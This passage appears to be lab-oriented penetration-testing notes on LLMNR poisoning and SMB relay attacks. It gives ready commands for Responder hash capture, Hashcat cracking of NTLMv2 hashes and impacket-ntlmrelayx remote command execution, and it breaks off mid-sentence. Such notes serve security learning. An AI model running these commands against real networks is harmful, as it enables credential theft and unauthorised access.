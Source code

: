 ## 1. LLMNR Poisoning - NC

#### Tools
* **Responder**
* **Hashcat**

#### Attack
```
sudo responder -I eth0 -dwv 
```

#### Event
* When any user in tries to connect to another user or file share which the domain server can not resolve to any location, responder sends poisoned response and replies on behalf of the server that it knows where the destination is and asks for hash to authenticate and referred to the location which results in our output **(NTLMV2 Hash)**
#### Output 
* NTLM V2 hash
* Use [Hashcat]() to crack plaintext password from the hash :
```
	hashcat -m 5600 hash.txt wordlist.txt
	hashcat -m 5600 hash.txt wordlist.txt --show
```


---

## 2. SMB Relay Attack - NC

#### Tools
- **nmap**
- **Responder**
* **impacket-ntlmrelayx**
* **ntlmrelayx.py**

### Requirement
1. The host needs to have SMB sign in enabled but not enforced/ required. Check with following command 
   ==``` nmap --script=smb2-security-mode.nse -p445 -Pn 192.168.57.135 ```==
2. Responder needs to have ==` HTTP `== and ==` smb `== switched off
   ==``` sudo mousepad /etc/responder/Responder.conf ```==
3. Create a file with target IPs for ease of attack
   ==``` echo "192.168.57.130\n192.168.57.131" > targets.txt ```==

#### Attack
```
	sudo responder -I eth0 -dwv
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support
				OR
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support -i
				OR
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support -c 'whoami'
```
- ==`-i`== option will create a interactive shell instance which can be used to bind with using ==` netcat `== :
